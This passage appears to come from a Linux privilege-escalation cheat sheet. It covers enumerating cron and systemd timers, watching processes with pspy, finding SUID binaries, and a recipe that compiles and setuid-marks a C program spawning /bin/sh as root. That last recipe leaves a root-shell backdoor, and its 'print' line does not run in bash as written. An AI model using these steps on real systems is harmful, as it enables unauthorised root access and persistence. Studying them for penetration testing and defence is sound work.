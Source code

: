 ```powershell
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*
```

You can use [pspy](https://github.com/DominicBreuker/pspy) to detect a CRON job.

```powershell
# print both commands and file system events and scan procfs every 1000 ms (=1sec)
./pspy64 -pf -i 1000 
```


## Systemd timers

```powershell
systemctl list-timers --all
NEXT                          LEFT     LAST                          PASSED             UNIT                         ACTIVATES
Mon 2019-04-01 02:59:14 CEST  15h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily.timer              apt-daily.service
Mon 2019-04-01 06:20:40 CEST  19h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily-upgrade.timer      apt-daily-upgrade.service
Mon 2019-04-01 07:36:10 CEST  20h left Sat 2019-03-09 14:28:25 CET   3 weeks 0 days ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service

3 timers listed.
```

## SUID

SUID/Setuid stands for "set user ID upon execution", it is enabled by default in every Linux distributions. If a file with this bit is ran, the uid will be changed by the owner one. If the file owner is `root`, the uid will be changed to `root` even if it was executed from user `bob`. SUID bit is represented by an `s`.

```powershell
╭─swissky@lab ~  
╰─$ ls /usr/bin/sudo -alh                  
-rwsr-xr-x 1 root root 138K 23 nov.  16:04 /usr/bin/sudo
```

### Find SUID binaries

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

### Create a SUID binary

```bash
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
```

